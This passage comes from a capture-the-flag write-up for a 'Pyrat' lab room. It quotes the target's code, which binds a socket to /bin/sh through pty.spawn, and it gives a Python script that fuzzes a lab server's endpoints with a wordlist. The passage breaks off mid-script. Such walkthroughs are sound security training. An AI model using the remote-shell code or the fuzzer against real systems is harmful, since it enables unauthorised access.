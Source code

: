 ```python
    try:
        import pty
        os.dup2(client_socket.fileno(), 0)
        os.dup2(client_socket.fileno(), 1)
        os.dup2(client_socket.fileno(), 2)
        pty.spawn("/bin/sh")
    except Exception as e:
        send_data(client_socket, e

...............................................
```

Reading the code, we see that the application will behave differently based on the data provided to it. Additionally, if we read the description of the room:

> A subsequent exploration yields valuable insights into the application’s older version. Exploring possible endpoints using a custom script, the user can discover a special endpoint

We can infer that there is another endpoint ( like `shell` ) and we are supposed to fuzz the server in order to find it.

But before that, let’s see how the server behaves when it is provided a valid endpoint vs when it is given an invalid endpoint.

For the valid endpoint, let’s just try `shell`:

{{<figure src="/img/thm/pyrat/valid_endpoint.webp" position=center caption="Trying shell">}}

We can see that the shell endpoint works as shown in the python code (it spawns a shell). Now for an invalid endpoint (`invalid123`):

{{<figure src="/img/thm/pyrat/invalid_endpoint.webp" position=center caption="Trying an invalid endpoint">}}

We get the message: “`name ‘invalid123’ is not defined`”.

Now we have enough information to write a script that will help us discover new endpoints.

```python
import socket

# Defining variables
RHOST = "10.10.137.243"
RPORT = 8000
WORDLIST_PATH = "/usr/share/wordlists/dirb/common.txt"

# Creating a socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Setting a timeout for the socket (2 seconds)
s.settimeout(2)

# Connecting to the server
s.connect((RHOST, RPORT))

# Opening the wordlist file in "read" mode
wlist = open(WORDLIST_PATH, "r")

for endpoint in wlist:
    print(f"[i] Trying {endpoint.strip()}")
    try:
        s.sendall(endpoint.strip().encode())
        response = s.recv(1024).decode()
        if "is not defined" not in response and "<string>" not in response and response.strip() != "":
            print(f"[+] {endpoint.strip()} might be a valid endpoint. It returned: {response}")
            choice = input("Continue? [y/n] -> ")
            if choice != "y":
```